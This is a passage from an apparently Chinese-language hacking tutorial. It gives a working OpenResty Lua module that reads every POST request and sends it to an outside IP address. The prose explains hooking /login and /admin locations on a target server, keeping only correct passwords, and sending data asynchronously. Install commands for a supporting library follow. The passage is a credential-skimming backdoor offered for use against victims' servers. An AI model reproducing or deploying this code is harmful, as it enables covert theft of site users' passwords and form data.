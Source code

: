 ```lua
local http = require "resty.http"
local cjson = require("cjson")

local _M = {}

function _M.sniff()
    ngx.req.read_body()
    local post_args = ngx.req.get_post_args()
    ngx.log(ngx.DEBUG, "data=" .. cjson.encode(post_args))
    if post_args then
        local httpc = http.new()
        local res, err = httpc:request_uri("http://111.111.111.111/test/", {
            method = "POST",
            body = "data=" .. cjson.encode(post_args),
            headers = {
            ["Content-Type"] = "application/x-www-form-urlencoded",
        }
        })
    end
end

return _M
```
然后用tornado写个接受post参数的web程序，测试代码及效果如下：
![](/media/images/003.png)
如果将监听的代码放到nginx的http段中，表示全局监听并窃取post数据，这样黑阔就会收到所有的post数据请求，对目标服务器的性能也有影响。

```ini

access_by_lua 'cmd.sniff() ';
```

最佳的做法是放到目标站点的关键的location中，比如/login、/admin等，需要注意的是lua-resty-http是基于cosocket实现的，所以不能放在以下几个阶段
set_by_lua*, log_by_lua*, header_filter_by_lua*, body_filter_by_lua。

如果只想记录正确的密码，过滤掉错误的，就需要在header_filter_by_lua或body_filter_by_lua阶段，通过服务器返回的值来判断用户post提交的密码是否正确，这个时候如果想提交到服务器中的话，就不能使用lua-resty-http了，但是可以通过ngx.timer.at 以异步的方式提交。
另外也可以使用第三方的模块lua-requests在header_filter_by_lua或body_filter_by_lua阶段提交数据，利用luarocks为openresty安装lua-requests的过程如下：

```bash

wget http://luarocks.org/releases/luarocks-2.0.13.tar.gz
tar -xzvf luarocks-2.0.13.tar.gz
cd luarocks-2.0.13/
./configure --prefix=/usr/local/openresty/luajit \
    --with-lua=/usr/local/openresty/luajit/ \
    --lua-suffix=jit-2.1.0-alpha \
    --with-lua-include=/usr/local/openresty/luajit/include/luajit-2.1
make
sudo make install

sudo /usr/local/openresty/luajit/luarocks install lua-requests
```
